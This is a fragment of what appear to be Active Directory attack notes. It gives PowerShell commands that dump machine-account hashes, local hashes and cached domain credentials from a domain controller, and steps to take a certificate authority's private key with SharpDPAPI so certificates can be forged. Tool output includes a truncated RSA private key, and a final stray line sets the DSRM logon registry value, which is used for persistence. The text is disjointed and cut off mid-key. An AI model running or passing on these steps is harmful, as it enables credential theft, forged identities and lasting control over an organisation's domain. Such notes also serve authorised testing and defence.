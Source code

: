 * Retrive machine account hash:
```powershell
Import-Module .\DAMP-master\Get-RemoteMachineAccountHash
Get-RemoteMachineAccountHash -ComputerName dc01.corp.local -Verbose
```

* Retrieve local account hash:
```powershell
Import-Module .\DAMP-master\Get-RemoteLocalAccountHash
Get-RemoteLocalAccountHash -ComputerName dc01.corp.local -Verbose
```

* Retrive domain cached credentials:
```powershell
Import-Module .\DAMP-master\Get-RemoteCachedCredentials
Get-RemoteCachedCredentials -ComputerName dc01.corp.local -Verbose
```

# Forged Certificates

Sometimes AD CS roles are installed on separate servers and not on the DC themselves. And often, they are no treated with the same sensitivity as DCs.

Gaining local admin access to a CA allows an attacker to extract the CA private key, which can be used to sign a forged certificate.

With `SharpDPAPI` we can extract the private keys.

* [https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)

Run the following command on a **Domain Controller**:

```powershell
.\SharpDPAPI.exe certificates /machine
```

The private CA key has the Issuer and Subject, both the distinguished name of the CA.

```
  File               : b2ddcffdd2d1598108758953e4e0356b_d0c48e6a-1237-4eca-bb8c-9b22df87997d

    Provider GUID    : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
    Master Key GUID  : {c153dc41-b91b-4ca3-8196-0cf72bdbf7c0}
    Description      : Private Key
    algCrypt         : CALG_AES_256 (keyLen 256)
    algHash          : CALG_SHA_512 (32782)
    Salt             : 5ea093f4e1b8c9415d080cecc3acd145b63fc9420074d51ff7998a361fd5ec24
    HMAC             : a2d1fee192cd5ab1e4304e87d8d31267d83a98290c9e08db513bcd7214b8f09b
    Unique Name      : sub-ca

    Thumbprint       : 697B1C2CD65B2ADC80C3D0CE83A6FB889B0CA08E
    Issuer           : CN=ca, DC=corp, DC=local
    Subject          : CN=sub-ca, DC=dev, DC=corp, DC=local
    Valid Date       : 8/15/2022 4:06:13 PM
    Expiry Date      : 8/15/2024 4:16:13 PM

    [*] Private key file b2ddcffdd2d1598108758953e4e0356b_d0c48e6a-1237-4eca-bb8c-9b22df87997d was recovered:

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAy1qdXLFZUIIEnDQ4g2Lh3fmppE6h0+Lql/tRlUZH41qazAeI
mezAMzphbzZxQeJP4MBSyqi21mhFt6sC48E5A0zlUbQduADsdQU7Ty6Zr9FzYva2
MP/zhgnmMSUEKoEA5p9bk6WcSdxixJMfmeSdFQiTDZ

```


[corp-dc]: PS C:\Users\Administrator\Documents> New-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD